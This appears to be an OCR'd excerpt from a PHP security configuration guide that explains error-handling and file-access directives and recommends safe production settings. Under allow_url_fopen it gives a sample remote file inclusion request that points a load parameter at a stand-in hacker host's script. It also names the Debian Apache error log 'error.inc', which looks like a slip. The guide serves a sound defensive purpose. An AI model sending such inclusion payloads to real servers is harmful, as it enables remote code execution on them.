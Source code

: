 * expose_php:

This directive tells PHP to add its version number to the standard web server header. It is recommended to disable this directive in production (Off value): the information given can serve potential hackers if you don't regularly update your server.

### Error Management

* display_errors:

This directive allows the display of PHP errors: in production, it must be set to Off (under penalty of providing valuable information to a potential hacker such as the name of your tables, etc.) and, of course, in development, it will need to be set to On.

* error_reporting:

Indicates the types of errors that PHP should report. When choosing to display them, it is recommended to display as many error messages as possible. The recommended values for PHP5 are E_ALL | E_STRICT and E_ALL for PHP4.

* log_errors:

Tells PHP to keep a list of errors encountered in a log file. It is useful to enable this directive even in production for error tracking without direct display.

* error_log:

If the log_errors directive has been set to On, the error_log directive allows you to specify the name and path of the log file you wish to use. Otherwise, the default file will be your Apache's error.log file (/var/log/apache2/error.inc on Debian-based distributions).

* html_errors:

Enables or disables HTML tags in error messages: if you have chosen not to display errors (display_errors to Off), this directive is useless. However, in development, by filling in the docref_root and docref_ext directives, you can have direct links to the documentation of the function that caused the error.

* docref_root:

This directive defines the path to the PHP manual. Generally, it will be:

```
docref_root = http://fr.php.net/manual/fr/
```

* docref_ext:

Defines the extension of the manual files. Again, these will generally be HTML files: docref_ext = .html.

### Managing File Access

* allow_url_fopen:

This directive allows the execution of remote files passed as a parameter of a URL. It is recommended to disable it (Off value): a hacker could have external code executed. If you have an index.php page that expects a load parameter, a hacker could execute:

```
index.php?load=http://www.the-hacker.com/script_pirate.txt
```
